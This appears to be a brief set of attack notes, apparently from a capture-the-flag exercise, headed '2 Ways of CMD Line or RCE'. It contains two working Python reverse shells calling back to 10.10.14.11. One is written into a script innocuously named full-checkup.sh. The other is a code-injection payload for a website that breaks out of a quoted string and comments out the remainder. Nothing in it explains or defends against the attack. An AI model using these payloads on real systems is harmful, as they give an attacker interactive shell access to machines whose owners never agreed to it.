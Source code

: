 2 Ways of CMD Line or RCE

echo '#!/usr/bin/python3\nimport socket\nimport subprocess\nimport os\ns=socket.socket(socket.AF_INET,socket.SOCK_STREAM)\ns.connect(("10.10.14.11",4443))\nos.dup2(s.fileno(),0)\nos.dup2(s.fileno(),1)\nos.dup2(s.fileno(),2)\nimport pty\npty.spawn("sh")\n' > full-checkup.sh

RCE ON website 
', exec("import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('10.10.14.11',4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(['/bin/sh','-i']);"))#